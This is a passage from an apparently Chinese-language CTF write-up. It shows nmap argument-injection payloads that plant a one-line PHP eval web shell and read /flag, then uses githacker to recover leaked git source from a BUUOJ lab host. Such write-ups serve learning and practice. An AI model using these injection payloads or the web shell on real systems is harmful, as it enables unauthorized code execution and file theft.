 ```php
' <?= @eval($_POST["hack"]);?> -oG test.phtml '
```

或者-iL直接读

```php
' -iL /flag -oN vege.txt '
```



## [网鼎杯 2020 白虎组]PicDown



非预期直接读到了flag...
等我py和linux学的好一点了再来复现预期吧





## [网鼎杯 2018]Comment

git泄露

利用`githacker`得到git源码

```bash
githacker --url http://30482e53-3cd2-4356-b14c-2f3790ed1b53.node4.buuoj.cn:81/ --output-folder ./
res
```

当前分支有一个`write_do.php`

```php
<?php
include "mysql.php";
session_start();
if($_SESSION['login'] != 'yes'){
    header("Location: ./login.php");
    die();
}
if(isset($_GET['do'])){
switch ($_GET['do'])
{
case 'write':
    break;
case 'comment':
    break;
default:
    header("Location: ./index.php");
}
}
else{
    header("Location: ./index.php");
}
?>
```
